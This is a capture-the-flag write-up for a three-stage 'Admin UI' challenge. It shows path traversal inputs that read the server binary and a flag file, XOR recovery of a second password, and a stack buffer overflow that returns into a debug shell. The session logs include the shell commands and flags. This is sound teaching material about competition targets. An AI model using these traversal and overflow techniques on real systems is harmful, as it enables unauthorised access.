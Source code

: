 # Admin UI

When we examine patchnotes we can find out that although path traversal vulnerability was patched in v0.2 it was rolled back in v0.3.
Let's try it
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../../../proc/self/cmdline
./main
```
So our binary is named `main`. Hopefully we can just print its contents the same way.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../main
```
We have to redirect output to file and then remove unnecessary lines added by this application (menu etc.)
This way we got the copy of the binary running on the server.
When we open it in IDA we can see that the application reads the password from file `flag`. Let's cat it.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```
Flag: `CTF{I_luv_buggy_sOFtware}`

# Admin UI 2

When we enter the flag from previous level as the password we can see that it's not the end and we have to enter secondary password.
When we analyze it in IDA, we can notice that it only checks if the password has 35 characters (maybe it wasn't intended by creators of this challenge).
Anyway we can the second flag offline. There is `_ZL4FLAG` offset in IDA and it's `const unsigned __int8 FLAG[35]`.
We can also notice that before length check our password is xorred with 0xC7 byte. So maybe if we just xor the flag from memory with this byte we'd get the flag back?
This [script](2nd.py) does it for us.

Flag: `CTF{Two_PasSworDz_Better_th4n_1_k?}`

# Admin UI 3

The last part of the series and the most interesting one. We finally get to command execution. Unfortunately there is variable `_ZL13shell_enabled` and it's set to false.
But we can execute some built-in commands. `debug` command prints us a lot of interesing informations about the memory. The most important is `_ZL13cmds_executed` variable and its address. `shell_enabled` is just after it in the memory!
Also there is `echo` command which calls printf with our input as first parameter. This would allow us to perform format string attack.
But there's an easier solution. ASLR is disabled for this binary, so addresses are constant and we don't need to print them at all (we can get it with IDA).
The second vulnerability is buffer overflow. If we send 0x38 times any letter and after that an address of the debug_shell() call (the if branch that would be executed if shell_enabled variable were set to true) the application will return to that address.
[exploit](exploit.py)
When you run the exploit you have to type `quit` twice. And then you have the shell.
```
$ ./exploit.py
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1

Please enter the backdoo^Wservice password
CTF{I_luv_buggy_sOFtware}
:
! Two factor authentication required !
Please enter secret secondary password
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
:
Authenticated
[*] Switching to interactive mode

> Unknown command ''
> $ quit
Unknown command 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAICAA'
> $ quit
Bye!
$ ls -la
total 144
drwxr-xr-x 3 user   user      4096 Jun 18 08:25 .
drwxr-xr-x 3 nobody nogroup   4096 May 25 13:19 ..
-rw-r--r-- 1 user   user       220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 user   user      3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 user   user       655 May 16  2017 .profile
-rw-r--r-- 1 nobody nogroup     26 May 24 15:03 an0th3r_fl44444g_yo
-rw-r--r-- 1 nobody nogroup     25 Jun 18 08:25 flag
-rwxr-xr-x 1 nobody nogroup 111128 Jun 18 08:25 main
drwxr-xr-x 2 nobody nogroup   4096 Jun 18 08:25 patchnotes
$ cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

Flag: `CTF{c0d3ExEc?W411_pL4y3d}`